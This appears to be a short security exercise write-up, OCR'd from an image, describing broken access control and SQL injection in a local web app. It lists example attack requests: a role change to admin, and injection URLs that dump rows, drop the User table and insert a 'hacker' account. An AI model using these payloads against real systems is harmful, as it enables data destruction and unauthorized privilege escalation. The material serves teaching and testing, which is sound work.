 1. **Broken Access Control:**
   - The `/change_user_role` endpoint lacks proper authorization checks. Any user can attempt to change roles without adequate validation.

2. **SQL Injection Vulnerability:**
   - The `/get_user_data` endpoint is vulnerable to SQL injection due to the direct use of user input in the SQL query.


### Exploiting Broken Access Control:

**Unauthorized Role Change Attempt:**
   - Method: POST
   - URL: `http://localhost:5000/change_user_role`
   - Body: `{"user_id": 1, "new_role": "admin"}`

### Exploiting SQL Injection:

**SQL Injection Attempt:**
   - Method: GET
   - URL: `http://localhost:5000/get_user_data?user_id=1 OR 1=1`
   
**SQL Injection Attempt to Drop Table:**
   - Method: GET
   - URL: `http://localhost:5000/get_user_data?user_id=1; DROP TABLE User`
**SQL Injection Attempt to add a new user:**
   - Method: GET
   - URL: `http://localhost:5000/get_user_data?user_id=1; INSERT INTO User (username, password, role) VALUES ('hacker', 'hacker', 'user')`

